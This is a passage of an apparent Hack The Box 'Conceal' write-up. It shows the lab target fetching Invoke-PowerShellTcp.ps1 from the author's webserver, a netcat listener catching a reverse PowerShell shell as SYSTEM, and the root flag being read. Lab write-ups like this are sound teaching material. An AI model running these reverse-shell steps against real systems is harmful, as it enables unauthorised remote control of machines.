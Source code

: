 When it does, I get a request on my `python` webserver:

```
10.10.10.116 - - [14/Jan/2019 19:13:46] "GET /Invoke-PowerShellTcp.ps1 HTTP/1.1" 200 -

```

And then a shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.116.
Ncat: Connection from 10.10.10.116:49723.
Windows PowerShell running as user CONCEAL$ on CONCEAL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>whoami
nt authority\system

```

Now now I’ll grab the root flag:

```

PS C:\Windows\system32> cd /users/administrator/desktop
PS C:\users\administrator\desktop> dir

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       12/10/2018     23:57             32 proof.txt

PS C:\users\administrator\desktop> type proof.txt
5737DD2E...

```

## Alternative Privesc

### Enumeration

When I checked `systeminfo` above, there were no hotfixes installed:

```

Hotfix(s):                 N/A

```
